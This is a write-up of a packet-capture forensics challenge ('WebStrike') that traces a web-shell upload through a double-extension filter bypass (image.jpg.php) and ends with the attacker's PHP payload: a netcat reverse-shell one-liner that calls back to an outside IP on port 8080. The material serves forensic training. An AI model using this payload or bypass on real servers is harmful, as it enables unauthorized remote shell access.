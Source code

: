 # 🕵️ WebStrike PCAP Forensics 

📘 **Scenario**  
A suspicious file upload was detected on a company web server. The development team flagged potential malicious activity, prompting the network team to capture live traffic using a packet sniffer. Your mission: analyze the `.pcap` file and determine:

- Where the attack originated  
- How the attacker gained access  
- What was uploaded to the server  
- Whether any data exfiltration occurred  

This challenge simulates a **real-world reverse shell attack**, requiring full-packet inspection, HTTP stream analysis, and exploitation tracing.

---

## 🛠️ Tools Used
- **Wireshark** – Packet-level analysis and TCP stream inspection  
- **ipgeolocation.io** – IP tracing and attacker location  
- **tcp.stream** + **Follow HTTP Stream** – to reconstruct web requests  
- **Command line forensics** – to extract payload details

---

## 📊 Analysis Breakdown

### 1️⃣ Attacker Origin: Geolocation & IP Address

- **Source IP:** `117.11.88.124`  
- **Victim IP:** `24.49.63.79`

Using Wireshark → Statistics → Endpoints, I isolated the suspicious external IP.  
Querying this IP on [ipgeolocation.io](https://ipgeolocation.io) returned:

> 📍 **Location:** Tianjin, China

This geolocation provides context for threat intelligence, blocking strategies, and profiling.

---

### 2️⃣ Attacker’s User-Agent String

Using **Follow HTTP Stream** in Wireshark, I pulled the headers from the attacker’s HTTP GET request:

> **User-Agent:**  
> `Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0`

This spoofed Linux Firefox agent was likely used to blend in with normal web traffic and avoid suspicion during the exploit phase.

---

### 3️⃣ Exploited Upload Vulnerability – Web Shell Delivery

The attacker attempted to upload a PHP-based web shell via `/reviews/upload.php`.  

- ❌ **Failed attempt:** `image.php` – rejected due to extension
- ✅ **Successful bypass:** `image.jpg.php` – accepted due to weak validation

The server responded with:

> **“File uploaded successfully”**  

✅ This confirmed the shell was stored in:  
`/reviews/uploads/image.jpg.php`

This demonstrates how attackers bypass upload filters with **double extensions**, especially if MIME types aren't enforced.

---

### 4️⃣ Reverse Shell Execution & Port Used

Inside `image.jpg.php`, the attacker injected a reverse shell using `Netcat (nc)`:

```php
<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 117.11.88.124 8080 >/tmp/f"); ?>
